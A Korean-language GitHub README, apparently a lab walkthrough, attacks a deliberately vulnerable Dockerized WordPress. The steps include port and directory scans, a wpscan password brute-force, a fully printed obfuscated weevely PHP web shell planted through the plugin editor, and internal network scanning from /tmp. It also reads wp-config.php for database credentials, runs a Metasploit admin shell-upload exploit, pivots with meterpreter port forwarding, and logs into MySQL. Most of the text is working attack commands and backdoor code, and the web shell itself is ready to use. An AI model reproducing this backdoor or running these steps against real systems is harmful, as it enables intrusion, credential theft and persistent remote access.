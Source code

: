 ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/13f1f546-cc3c-4287-8bca-252a673443b8)
## Docker_WP_Hacking
도커 환경으로 구성한 워드프레스를 도커 취약점과 워드프레스 취약점을 이용해 해킹해보기.

## 사전준비
- 취약한 도커 이미지를 가상화 툴에 올려 준비해준다. : 192.168.146.129
- Kali Linux : 192.168.146.128
- WireShark
- Burpsuite (Decoder용도)

## 정보수집
- nmap을 통한 포트 스캔
```
sudo nmap -sV 192.168.146.129 -p-
sudo nmap -sV -sC 192.168.146.129 -p-
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/0a64950c-3f19-472f-8145-93b562db515d)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/11b8c2fe-2e10-4cc5-81fc-26bbdedfbe16)
- /wp-admin/ 경로 정보 획득
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/c2041775-4ecb-4186-9f02-771b675487ba)
- 8000 포트, 22번 포트 확인
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/31d1c0dd-a66d-45b1-9984-02de893825bd)

- Nikto를 통한 정보 수집
```
sudo nikto -h http://192.168.146.129:8000/
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/3cf75a46-568c-4f8c-8a2c-03bb9e1f6862)

- dirb를 통한 정보 수집
```
sudo dirb http://192.168.146.129:8000/
```
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/170e296e-7298-4bb8-9ec1-25f0e5df1b61)

- wpscan을 통한 정보(워드프레스 플러그인 취약점) 수집
```
wpscan --url http://192.168.146.129:8000/ --enumerate p
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/7979d634-5639-49df-8567-7f1fa200fac6)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/71539c00-8342-4b39-9c93-4b868c99b1f9)
- 메시지를 읽어보니 POST 메소드는 허용하는 것으로보아 무차별 대입공격을 허용하는 것 같다.

## brute-force 공격

-wpscan을 이용해 wordpress 계정 정보 얻기

```
wpscan --url http://192.168.146.129:8000/ --enumerate u
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/b61fb484-9230-47ca-a415-76c5c4c09b5e)

- wpscan의 무차별 대입 공격 기능 사용
- github SecList의 password 모음을 사용.

```
sudo git clone https://github.com/danielmiessler/SecLists.git
sudo wpscan --url http://192.168.146.129:8000/ --passwords ~/SecLists/Passwords/Common-Credential/10-million-password-list-top-10000.txt --usernames bob
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/80b80b6e-0292-4a3d-9b38-67e3c97675a0)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/210c83da-95ac-42e7-b7d8-c04bbb289f9c)

## 웹쉘 생성
- weevly를 사용하여 웹쉘 생성
```
sudo weevely generate hacker shell.php
cat shell.php
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/466ade39-1490-4a56-b3d7-ad1a12b9d5aa)

## 웹쉘 코드 업로드
- [wordpress admin site] -> [login(bob/Welcome1)] -> [plugins] -> [Editor]

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/1db97540-a895-4d8f-915c-5c291598a904)

```
?>
<?php
$B=str_replace('WQ','','cWQreatWQWQe_fWQuncWQtWQion');
$Z='$ku2="du26a6bc0d";$u2khu2="b10694a2du290e";$kf="u23a6964u28u2f3a03";$p=u2"g7e6u2hLIPrmHu2v7eIu2ju2";fun';
$l='u2val(@gzuncomu2pru2ess(@x(u2@base6u24_decode($m[1])u2,$k)))u2;$ou2=@ou2b_get_cou2ntentu2s();@obu2';
$A='u2"/$kh(.u2+)u2$kf/",@file_u2get_cu2ou2ntents(u2"php://inpu2uu2t"),u2$m)==1)u2 {@ob_u2su2tart();@e';
$h='2u2u2($j<$c&&$u2i<$l);$j++,u2$i++u2){u2$o.=$t{$iu2}^u2$k{$j}u2;}}returnu2 u2$o;}if (@preg_mau2tch(';
$d='_endu2u2_cleanu2();$r=u2@bu2ase64_encode(@u2x(@gu2zcompress($u2u2o),$k))u2;pu2rint("$p$kh$r$kf");}';
$G='cu2tion x($t,$k){$u2c=stru2len($ku2);$lu2u2=strlen($tu2)u2;$o="";for(u2$i=u20;$i<$l;){fu2or($j=0;u';
$k=str_replace('u2','',$Z.$G.$h.$A.$l.$d);
$C=$B('',$k);$C();
?>
<?php

```

- [Update File]


 
## 웹쉘 연결 후 내부 정보 수집

- 대부분 wordpress에서 플러그인 업로드를 하면 /wp-content/plugins/[펄러그인].php
```
http://192.168.146.129:8000/wp-content/plugins/hello.php hacker
```

- nmap 바이너리 파일을 weevely의 file_upload 모듈을 사용하여 침투한 시스템에 업로드.
- https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap 다운로드 하여 kali에 옮기기
- tmp 파일에 nmap 바이너리를 넣는 이유는 침투했을 때 권한이 www-data 이기 때문에 권한이 있는 임시 디렉토리인 tmp에 업로드 한 것이다.
```
file_upload /home/kali/Downloads/nmap /tmp/nmap
ls
chmod +x nmap
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/fa80b0c0-2ce3-47dd-a159-5b42f6929c3e)

- 내부 프라이빗 ip 확인후 내부 인터넷 망 스캔

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/67d1f594-b753-472f-8d7a-26275ef88c6e)

```
ip addr
./nmap 172.18.0.0/24
```

- nmap 결과로 보아 현재위치는 웹서비스를 제공하는 서버이다.
- 172.18.0.2 는 Database mysql 서버이다.
- 172.18.0.4 는 ssh로 내부로 접속을 하기 위한 bastion 서버로 추측 할 수있으며, 8022의 목적을 알 수 없는 포트가 열려있다.
- 일반적으로 8022 포트는 표준 SSH(Secure Shell) 포트인 22의 대안으로 사용될 수 있다.

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/c59d3ba2-7fae-48c9-b422-aea6ca8decfb)

- db 서버가 있는 것을 확인했으니 db서버 정보를 획득 해야한다.
- wordpress 에서는 wp-config.php에 db 계정 정보가 담겨있다.

```
cd /var/www/html
ls
cat wp-config.php
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/7d441bb0-b738-4597-b4cd-871aa6b8ae55)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/2738974d-576d-45e2-9b2b-695a5801cc91)

- 브라우저로 접속했을 때 docker환경인 것을 힌트로 얻을 수 있었지만 확실하게 한번더 확인한다.
- docker 환경에 init 프로세스는 대부분 docker 이므로
- /proc/1/cgroup 내용을 확인하여 docker 환경임을 확신한다.

```
cat /proc/1/cgroup
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/8657076e-2fd2-42c7-b492-805a7873818c)



## 8022 포트 공격
- Kali에서 다른 터미널을 연다.

```
sudo msfconsole
search wp_admin
use exploit/unix/webapp/wp_admin_shell_upload
show options
set RHOSTS 192.168.146.129
set RPORT 8000
set USERNAME bob
set PASSWORD Welcome1
exploit
```
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/12a8d10e-1035-4971-b134-92d1c9f11c37)

- 내부에 침투하여 nmap으로 내부망 서버 구성을 확인하였다.
- 미터프리터 즉 웹서비스안에 msfconsole로 침투 성공도 하였다.
- 미터프리터의 기능인 포트포워딩 기능을 이용하여 해커의 8022 포트를 연다
- 해커는 자신의 브라우저에 localhost:8022로 접속을하면 침투한 내부망의 bastion 서버인 172.18.0.4:8022로 포워딩 해준다.

```
portfwd add -l 8022 -p 8022 -r 172.18.0.4
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/2c786847-330a-4c68-8ad7-42552c70097e)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/02d167a5-9741-47c3-87e6-9fd59ec6b476)

- 분명 172.18.0.4:8022로 포트포워딩을 했는데 172.18.0.2로 접속되었다.
- 즉 172.18.0.4:8022는 내부 db서버인 172.18.0.2로 접속하는 포트였던 것이다.
- 획득한 db정보를 통해 접속해보자.

```
mysql -u wordpress -p
Enter password : WordPressISBest
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/d3f8d1d3-f2fc-4085-977b-e39f98be548f)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/12eb1c7b-d758-4ed7-af81-a858a0defd48)

